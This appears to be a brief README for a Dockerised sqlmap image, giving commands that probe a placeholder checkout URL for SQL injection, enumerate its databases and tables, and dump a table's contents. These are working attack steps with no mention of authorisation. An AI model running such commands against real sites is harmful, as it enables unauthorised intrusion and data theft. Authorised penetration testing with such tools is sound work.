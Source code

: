 ## RUN USING THIS COMMAND
docker run --rm -it sqlmap:1.0 --url www.example.com/?id=1
## to find basic vulnerabilities
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10"

## to deeply inspect found exploitable point and get databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" --dbs

## list tables from found databas databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" -D databasename --tables

## dump table tablename from database databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" -D databasename -T tablename --dump

### original script and command
https://github.com/paoloo/sqlmap

